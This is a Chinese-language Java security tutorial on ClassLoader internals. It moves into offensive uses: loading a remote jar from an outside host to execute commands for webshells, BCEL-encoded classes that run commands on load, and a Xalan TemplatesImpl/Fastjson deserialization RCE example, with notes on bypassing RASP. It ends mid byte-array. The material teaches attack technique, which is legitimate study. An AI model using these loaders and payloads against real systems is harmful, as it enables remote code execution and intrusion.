



# ClassLoader（类加载机制）

Java是一个依赖于`JVM`（Java虚拟机）实现的跨平台的开发语言。Java程序在运行前需要先编译成`class文件`，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，`ClassLoader`会调用JVM的native方法（`defineClass0/1/2`）来定义一个`java.lang.Class`实例。

**JVM架构图：**


## Java类

Java是编译型语言，我们编写的java文件需要编译成后class文件后才能够被JVM运行，学习`ClassLoader`之前我们先简单了解下Java类。

**示例TestHelloWorld.java：**

```java
package com.anbai.sec.classloader;

/**
 * Creator: yz
 * Date: 2019/12/17
 */
public class TestHelloWorld {

	public String hello() {
		return "Hello World~";
	}

}
```

编译`TestHelloWorld.java`：`javac TestHelloWorld.java`

我们可以通过JDK自带的`javap`命令反汇编`TestHelloWorld.class`文件对应的`com.anbai.sec.classloader.TestHelloWorld`类，以及使用Linux自带的`hexdump`命令查看`TestHelloWorld.class`文件二进制内容：


JVM在执行`TestHelloWorld`之前会先解析class二进制内容，JVM执行的其实就是如上`javap`命令生成的字节码。


## ClassLoader

一切的Java类都必须经过JVM加载后才能运行，而`ClassLoader`的主要作用就是Java类文件的加载。在JVM类加载器中最顶层的是`Bootstrap ClassLoader（引导类加载器）`、`Extension ClassLoader（扩展类加载器）`、`App ClassLoader（系统类加载器）`，`AppClassLoader`是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用`AppClassLoader`加载类，`ClassLoader.getSystemClassLoader()`返回的系统类加载器也是`AppClassLoader`。

值得注意的是某些时候我们获取一个类的类加载器时候可能会返回一个`null`值，如:`java.io.File.class.getClassLoader()`将返回一个`null`对象，因为`java.io.File`类在JVM初始化的时候会被`Bootstrap ClassLoader（引导类加载器）`加载（该类加载器实现于JVM层，采用C++编写），我们在尝试获取被`Bootstrap ClassLoader`类加载器所加载的类的`ClassLoader`时候都会返回`null`。

`ClassLoader`类有如下核心方法：

1. `loadClass`（加载指定的Java类）
2. `findClass`（查找指定的Java类）
3. `findLoadedClass`（查找JVM已经加载过的类）
4. `defineClass`（定义一个Java类）
5. `resolveClass`（链接指定的Java类）


## Java类动态加载方式

Java类加载方式分为`显式`和`隐式`,`显式`即我们通常使用`Java反射`或者`ClassLoader`来动态加载一个类对象，而`隐式`指的是`类名.方法名()`或`new `类实例。`显式`类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类。

**常用的类动态加载方式：**

```java
// 反射加载TestHelloWorld示例
Class.forName("com.anbai.sec.classloader.TestHelloWorld");

// ClassLoader加载TestHelloWorld示例
this.getClass().getClassLoader().loadClass("com.anbai.sec.classloader.TestHelloWorld");
```

`Class.forName("类名")`默认会初始化被加载类的静态属性和方法，如果不希望初始化类可以使用`Class.forName("类名", 是否初始化类, 类加载器)`，而`ClassLoader.loadClass`默认不会初始化类方法。


## ClassLoader类加载流程

理解Java类加载机制并非易事，这里我们以一个Java的HelloWorld来学习`ClassLoader`。

`ClassLoader`加载`com.anbai.sec.classloader.TestHelloWorld`类重要流程如下：

1. `ClassLoader`会调用`public Class<?> loadClass(String name)`方法加载`com.anbai.sec.classloader.TestHelloWorld`类。
2. 调用`findLoadedClass`方法检查`TestHelloWorld`类是否已经初始化，如果JVM已初始化过该类则直接返回类对象。
3. 如果创建当前`ClassLoader`时传入了父类加载器（`new ClassLoader(父类加载器)`）就使用父类加载器加载`TestHelloWorld`类，否则使用JVM的`Bootstrap ClassLoader`加载。
4. 如果上一步无法加载`TestHelloWorld`类，那么调用自身的`findClass`方法尝试加载`TestHelloWorld`类。
5. 如果当前的`ClassLoader`没有重写了`findClass`方法，那么直接返回类加载失败异常。如果当前类重写了`findClass`方法并通过传入的`com.anbai.sec.classloader.TestHelloWorld`类名找到了对应的类字节码，那么应该调用`defineClass`方法去JVM中注册该类。
6. 如果调用loadClass的时候传入的`resolve`参数为true，那么还需要调用`resolveClass`方法链接类，默认为false。
7. 返回一个被JVM加载后的`java.lang.Class`类对象。


## 自定义ClassLoader

`java.lang.ClassLoader`是所有的类加载器的父类，`java.lang.ClassLoader`有非常多的子类加载器，比如我们用于加载jar包的`java.net.URLClassLoader`其本身通过继承`java.lang.ClassLoader`类，重写了`findClass`方法从而实现了加载目录class文件甚至是远程资源文件。

既然已知ClassLoader具备了加载类的能力，那么我们不妨尝试下写一个自己的类加载器来实现加载自定义的字节码（这里以加载`TestHelloWorld`类为例）并调用`hello`方法。

如果`com.anbai.sec.classloader.TestHelloWorld`类存在的情况下，我们可以使用如下代码即可实现调用`hello`方法并输出：

```java
TestHelloWorld t = new TestHelloWorld();
String str = t.hello();
System.out.println(str);
```

但是如果`com.anbai.sec.classloader.TestHelloWorld`根本就不存在于我们的`classpath`，那么我们可以使用自定义类加载器重写`findClass`方法，然后在调用`defineClass`方法的时候传入`TestHelloWorld`类的字节码的方式来向JVM中定义一个`TestHelloWorld`类，最后通过反射机制就可以调用`TestHelloWorld`类的`hello`方法了。

**TestClassLoader示例代码：**

```java
package com.anbai.sec.classloader;

import java.lang.reflect.Method;

/**
 * Creator: yz
 * Date: 2019/12/17
 */
public class TestClassLoader extends ClassLoader {

	// TestHelloWorld类名
	private static String testClassName = "com.anbai.sec.classloader.TestHelloWorld";

	// TestHelloWorld类字节码
	private static byte[] testClassBytes = new byte[]{
			-54, -2, -70, -66, 0, 0, 0, 51, 0, 17, 10, 0, 4, 0, 13, 8, 0, 14, 7, 0, 15, 7, 0,
			16, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
			101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101,
			1, 0, 5, 104, 101, 108, 108, 111, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108,
			97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114, 99,
			101, 70, 105, 108, 101, 1, 0, 19, 84, 101, 115, 116, 72, 101, 108, 108, 111, 87, 111,
			114, 108, 100, 46, 106, 97, 118, 97, 12, 0, 5, 0, 6, 1, 0, 12, 72, 101, 108, 108, 111,
			32, 87, 111, 114, 108, 100, 126, 1, 0, 40, 99, 111, 109, 47, 97, 110, 98, 97, 105, 47,
			115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47, 84, 101, 115,
			116, 72, 101, 108, 108, 111, 87, 111, 114, 108, 100, 1, 0, 16, 106, 97, 118, 97, 47, 108,
			97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0, 3, 0, 4, 0, 0, 0, 0, 0, 2, 0, 1,
			0, 5, 0, 6, 0, 1, 0, 7, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0,
			1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 0, 1, 0, 9, 0, 10, 0, 1, 0, 7, 0, 0, 0, 27, 0, 1,
			0, 1, 0, 0, 0, 3, 18, 2, -80, 0, 0, 0, 1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 10, 0, 1, 0, 11,
			0, 0, 0, 2, 0, 12
	};

	@Override
	public Class<?> findClass(String name) throws ClassNotFoundException {
		// 只处理TestHelloWorld类
		if (name.equals(testClassName)) {
			// 调用JVM的native方法定义TestHelloWorld类
			return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);
		}

		return super.findClass(name);
	}

	public static void main(String[] args) {
		// 创建自定义的类加载器
		TestClassLoader loader = new TestClassLoader();

		try {
			// 使用自定义的类加载器加载TestHelloWorld类
			Class testClass = loader.loadClass(testClassName);

			// 反射创建TestHelloWorld类，等价于 TestHelloWorld t = new TestHelloWorld();
			Object testInstance = testClass.newInstance();

			// 反射获取hello方法
			Method method = testInstance.getClass().getMethod("hello");

			// 反射调用hello方法,等价于 String str = t.hello();
			String str = (String) method.invoke(testInstance);

			System.out.println(str);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

利用自定义类加载器我们可以在webshell中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的native方法绕过RASP检测，也可以用于加密重要的Java类字节码（只能算弱加密了）。


## URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。

**TestURLClassLoader.java示例：**

```java
package com.anbai.sec.classloader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

/**
 * Creator: yz
 * Date: 2019/12/18
 */
public class TestURLClassLoader {

	public static void main(String[] args) {
		try {
			// 定义远程加载的jar路径
			URL url = new URL("https://anbai.io/tools/cmd.jar");

			// 创建URLClassLoader对象，并加载远程jar包
			URLClassLoader ucl = new URLClassLoader(new URL[]{url});

			// 定义需要执行的系统命令
			String cmd = "ls";

			// 通过URLClassLoader加载远程jar包中的CMD类
			Class cmdClass = ucl.loadClass("CMD");

			// 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
			Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

			// 获取命令执行结果的输入流
			InputStream           in   = process.getInputStream();
			ByteArrayOutputStream baos = new ByteArrayOutputStream();
			byte[]                b    = new byte[1024];
			int                   a    = -1;

			// 读取命令执行结果
			while ((a = in.read(b)) != -1) {
				baos.write(b, 0, a);
			}

			// 输出命令执行结果
			System.out.println(baos.toString());
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

远程的`cmd.jar`中就一个`CMD.class`文件，对应的编译之前的代码片段如下：

```cmd
import java.io.IOException;

/**
 * Creator: yz
 * Date: 2019/12/18
 */
public class CMD {

	public static Process exec(String cmd) throws IOException {
		return Runtime.getRuntime().exec(cmd);
	}

}
```

程序执行结果如下：

```java
README.md
gitbook
javaweb-sec-source
javaweb-sec.iml
jni
pom.xml
```


## BCEL ClassLoader

[BCEL](https://commons.apache.org/proper/commons-bcel/)（`Apache Commons BCEL™`）是一个用于分析、创建和操纵Java类文件的工具库，Oracle JDK引用了BCEL库，不过修改了原包名`org.apache.bcel.util.ClassLoader`为`com.sun.org.apache.bcel.internal.util.ClassLoader`，BCEL的类加载器在解析类名时会对ClassName中有`$$BCEL$$`标识的类做特殊处理，该特性经常被用于编写各类Payload。

**示例 - BCEL类名解码：**



当BCEL的`com.sun.org.apache.bcel.internal.util.ClassLoader#loadClass`加载一个类名中带有`$$BCEL$$`的类时会截取出`$$BCEL$$`后面的字符串，然后使用`com.sun.org.apache.bcel.internal.classfile.Utility#decode`将字符串解析成类字节码，最后会调用`defineClass`注册解码后的类，一旦该类被加载就会触发类中的恶意代码，正是因为BCEL有了这个特性，才得以被广泛的应用于各类攻击Payload中。


### BCEL编解码

**BCEL编码：**

```java
private static final byte[] CLASS_BYTES = new byte[]{类字节码byte数组}];

// BCEL编码类字节码
String className = "$$BCEL$$" + com.sun.org.apache.bcel.internal.classfile.Utility.encode(CLASS_BYTES, true);
```

编码后的类名：`$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85S$dbn$d......`，BCEL会对类字节码进行编码，

**BCEL解码：**

```java
int    index    = className.indexOf("$$BCEL$$");
String realName = className.substring(index + 8);

// BCEL解码类字节码
byte[] bytes = com.sun.org.apache.bcel.internal.classfile.Utility.decode(realName, true);
```

如果被加载的类名中包含了`$$BCEL$$`关键字，BCEL就会使用特殊的方式进行解码并加载解码之后的类。


**示例 - 使用BCEL实现命令执行：**

```java
package com.anbai.sec.classloader;

import com.sun.org.apache.bcel.internal.classfile.Utility;

public class BCELClassLoader {

	/**
	 * com.anbai.sec.classloader.TestBCELClass类字节码，Windows和MacOS弹计算器，Linux执行curl localhost:9999
	 * <pre>
	 * package com.anbai.sec.classloader;
	 *
	 * import java.io.IOException;
	 *
	 * public class TestBCELClass {
	 *
	 * 	static {
	 * 		String command = "open -a Calculator.app";
	 * 		String osName  = System.getProperty("os.name");
	 *
	 * 		if (osName.startsWith("Windows")) {
	 * 			command = "calc 12345678901234567";
	 *      } else if (osName.startsWith("Linux")) {
	 * 			command = "curl localhost:9999/";
	 *       }
	 *
	 * 		try {
	 * 			Runtime.getRuntime().exec(command);
	 *      } catch (IOException e) {
	 * 			e.printStackTrace();
	 *      }
	 *   }
	 * }
	 * </pre>
	 */
	private static final byte[] CLASS_BYTES = new byte[]{
			-54, -2, -70, -66, 0, 0, 0, 50, 0, 56, 10, 0, 15, 0, 26, 8, 0, 27, 8, 0, 28, 10, 0, 29, 0, 30, 8, 0, 31,
			10, 0, 32, 0, 33, 8, 0, 34, 8, 0, 35, 8, 0, 36, 10, 0, 37, 0, 38, 10, 0, 37, 0, 39, 7, 0, 40, 10, 0, 12,
			0, 41, 7, 0, 42, 7, 0, 43, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111,
			100, 101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101, 1, 0, 8, 60, 99,
			108, 105, 110, 105, 116, 62, 1, 0, 13, 83, 116, 97, 99, 107, 77, 97, 112, 84, 97, 98, 108, 101, 7, 0, 44,
			7, 0, 40, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 18, 84, 101, 115, 116, 66, 67,
			69, 76, 67, 108, 97, 115, 115, 46, 106, 97, 118, 97, 12, 0, 16, 0, 17, 1, 0, 22, 111, 112, 101, 110, 32,
			45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114, 46, 97, 112, 112, 1, 0, 7, 111, 115, 46, 110,
			97, 109, 101, 7, 0, 45, 12, 0, 46, 0, 47, 1, 0, 7, 87, 105, 110, 100, 111, 119, 115, 7, 0, 44, 12, 0, 48,
			0, 49, 1, 0, 22, 99, 97, 108, 99, 32, 49, 50, 51, 52, 53, 54, 55, 56, 57, 48, 49, 50, 51, 52, 53, 54, 55,
			1, 0, 5, 76, 105, 110, 117, 120, 1, 0, 20, 99, 117, 114, 108, 32, 108, 111, 99, 97, 108, 104, 111, 115,
			116, 58, 57, 57, 57, 57, 47, 7, 0, 50, 12, 0, 51, 0, 52, 12, 0, 53, 0, 54, 1, 0, 19, 106, 97, 118, 97, 47,
			105, 111, 47, 73, 79, 69, 120, 99, 101, 112, 116, 105, 111, 110, 12, 0, 55, 0, 17, 1, 0, 39, 99, 111, 109,
			47, 97, 110, 98, 97, 105, 47, 115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47,
			84, 101, 115, 116, 66, 67, 69, 76, 67, 108, 97, 115, 115, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110,
			103, 47, 79, 98, 106, 101, 99, 116, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114,
			105, 110, 103, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 121, 115, 116, 101, 109, 1, 0,
			11, 103, 101, 116, 80, 114, 111, 112, 101, 114, 116, 121, 1, 0, 38, 40, 76, 106, 97, 118, 97, 47, 108, 97,
			110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83,
			116, 114, 105, 110, 103, 59, 1, 0, 10, 115, 116, 97, 114, 116, 115, 87, 105, 116, 104, 1, 0, 21, 40, 76,
			106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 90, 1, 0, 17, 106, 97,
			118, 97, 47, 108, 97, 110, 103, 47, 82, 117, 110, 116, 105, 109, 101, 1, 0, 10, 103, 101, 116, 82, 117,
			110, 116, 105, 109, 101, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 82, 117, 110,
			116, 105, 109, 101, 59, 1, 0, 4, 101, 120, 101, 99, 1, 0, 39, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110,
			103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114,
			111, 99, 101, 115, 115, 59, 1, 0, 15, 112, 114, 105, 110, 116, 83, 116, 97, 99, 107, 84, 114, 97, 99, 101,
			0, 33, 0, 14, 0, 15, 0, 0, 0, 0, 0, 2, 0, 1, 0, 16, 0, 17, 0, 1, 0, 18, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0,
			5, 42, -73, 0, 1, -79, 0, 0, 0, 1, 0, 19, 0, 0, 0, 6, 0, 1, 0, 0, 0, 5, 0, 8, 0, 20, 0, 17, 0, 1, 0, 18,
			0, 0, 0, -106, 0, 2, 0, 3, 0, 0, 0, 53, 18, 2, 75, 18, 3, -72, 0, 4, 76, 43, 18, 5, -74, 0, 6, -103, 0,
			9, 18, 7, 75, -89, 0, 15, 43, 18, 8, -74, 0, 6, -103, 0, 6, 18, 9, 75, -72, 0, 10, 42, -74, 0, 11, 87,
			-89, 0, 8, 77, 44, -74, 0, 13, -79, 0, 1, 0, 36, 0, 44, 0, 47, 0, 12, 0, 2, 0, 19, 0, 0, 0, 46, 0, 11,
			0, 0, 0, 8, 0, 3, 0, 9, 0, 9, 0, 11, 0, 18, 0, 12, 0, 24, 0, 13, 0, 33, 0, 14, 0, 36, 0, 18, 0, 44, 0,
			21, 0, 47, 0, 19, 0, 48, 0, 20, 0, 52, 0, 22, 0, 21, 0, 0, 0, 19, 0, 4, -3, 0, 24, 7, 0, 22, 7, 0, 22,
			11, 74, 7, 0, 23, -7, 0, 4, 0, 1, 0, 24, 0, 0, 0, 2, 0, 25
	};

	public static void main(String[] args) {
		try {
			// 使用反射是为了防止高版本JDK不存在com.sun.org.apache.bcel.internal.util.ClassLoader类
			Class<?> bcelClass = Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader");

			// 创建BCEL类加载器
//			ClassLoader classLoader = (ClassLoader) bcelClass.newInstance();
//			ClassLoader classLoader = new com.sun.org.apache.bcel.internal.util.ClassLoader();
			ClassLoader classLoader = new org.apache.bcel.util.ClassLoader();

			// BCEL编码类字节码
			String className = "$$BCEL$$" + Utility.encode(CLASS_BYTES, true);

			System.out.println(className);

			Class<?> clazz = Class.forName(className, true, classLoader);

			System.out.println(clazz);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

上述示例程序利用了BCEL的类加载特性加载了一个恶意的类：`com.anbai.sec.classloader.TestBCELClass`，该类的static语句块中包含了命令执行，所以该类一旦被初始化就会触发命令执行。


### BCEL兼容性问题

BCEL这个特性仅适用于BCEL 6.0以下，因为从6.0开始`org.apache.bcel.classfile.ConstantUtf8#setBytes`就已经过时了，如下：

```java
/**
* @param bytes the raw bytes of this Utf-8
* @deprecated (since 6.0)
*/
@java.lang.Deprecated
public final void setBytes( final String bytes ) {
  throw new UnsupportedOperationException();
}
```

Oracle自带的BCEL是修改了原始的包名，因此也有兼容性问题，已知支持该特性的JDK版本为：`JDK1.5 - 1.7`、`JDK8 - JDK8u241`、`JDK9`。


## Xalan ClassLoader

Xalan和BCEL一样都经常被用于编写反序列化Payload，Oracle JDK默认也引用了Xalan，同时修改了原包名`org.apache.xalan.xsltc.trax.TemplatesImpl`为`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，Xalan最大的特点是可以传入类字节码并初始化（需要调用`getOutputProperties`方法），从而实现RCE，比如Fastjson和Jackson会使用反射调用`getter/setter`或`成员变量映射`的方式实现JSON反序列化。

`TemplatesImpl`中有一个`_bytecodes`成员变量，用于存储类字节码，通过JSON反序列化的方式可以修改该变量值，但因为该成员变量没有可映射的get/set方法所以需要修改JSON库的虚拟化配置，比如Fastjson解析时必须启用`Feature.SupportNonPublicField`、Jackson必须开启`JacksonPolymorphicDeserialization`（调用`mapper.enableDefaultTyping()`），所以利用条件相对较高。

**TemplatesImpl类：**



通过反序列化方式修改了`_bytecodes/_name/_tfactory/_outputProperties`之后还必须调用`getOutputProperties()`方法，才能触发类创建和实例化。



**defineClass调用链：**

```java
java.lang.ClassLoader.defineClass(ClassLoader.java:794)
java.lang.ClassLoader.defineClass(ClassLoader.java:643)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl$TransletClassLoader.defineClass(TemplatesImpl.java:163)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.defineTransletClasses(TemplatesImpl.java:367)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:404)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:439)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:460)
com.anbai.sec.classloader.XalanTemplatesImpl.invokeField(XalanTemplatesImpl.java:150)
com.anbai.sec.classloader.XalanTemplatesImpl.main(XalanTemplatesImpl.java:176)
```

**getOutputProperties命令执行调用链：**

```java
java.lang.Runtime.exec(Runtime.java:347)
com.anbai.sec.classloader.TestAbstractTranslet.<init>(TestAbstractTranslet.java:24)
sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:57)
sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
java.lang.reflect.Constructor.newInstance(Constructor.java:526)
java.lang.Class.newInstance(Class.java:383)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:408)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:439)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:460)
com.anbai.sec.classloader.XalanTemplatesImpl.invokeField(XalanTemplatesImpl.java:150)
com.anbai.sec.classloader.XalanTemplatesImpl.main(XalanTemplatesImpl.java:176)
```

**Xalan攻击示例代码：**

```java
package com.anbai.sec.classloader;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.LinkedHashMap;
import java.util.Map;
import java.util.Properties;

import static org.apache.commons.codec.binary.Base64.encodeBase64String;

public class XalanTemplatesImpl {

	/**
	 * com.anbai.sec.classloader.TestAbstractTranslet类字节码
	 *
	 * <pre>
	 * package com.anbai.sec.classloader;
	 *
	 * import com.sun.org.apache.xalan.internal.xsltc.DOM;
	 * import com.sun.org.apache.xalan.internal.xsltc.TransletException;
	 * import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
	 * import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
	 * import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
	 *
	 * import java.io.IOException;
	 *
	 * public class TestAbstractTranslet extends AbstractTranslet {
	 *
	 * 	public TestAbstractTranslet() {
	 * 		String command = "open -a Calculator.app";
	 * 		String osName  = System.getProperty("os.name");
	 *
	 * 		if (osName.startsWith("Windows")) {
	 * 			command = "calc 12345678901234567";
	 *      } else if (osName.startsWith("Linux")) {
	 * 			command = "curl localhost:9999/";
	 *      }
	 *
	 * 		try {
	 * 			Runtime.getRuntime().exec(command);
	 *      } catch (IOException e) {
	 * 			e.printStackTrace();
	 *      }
	 *    }
	 *
	 *    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
	 *    }
	 *
	 *    public void transform(DOM document, DTMAxisIterator it, SerializationHandler handler) throws TransletException {
	 *    }
	 * }
	 * </pre>
	 */
	public static final byte[] CLASS_BYTES = new byte[]{
			-54, -2, -70, -66, 0, 0, 0, 50, 0, 62, 10, 0, 15, 0, 31, 8, 0, 32, 8, 0, 33, 10, 0, 34, 0, 35, 8, 0,
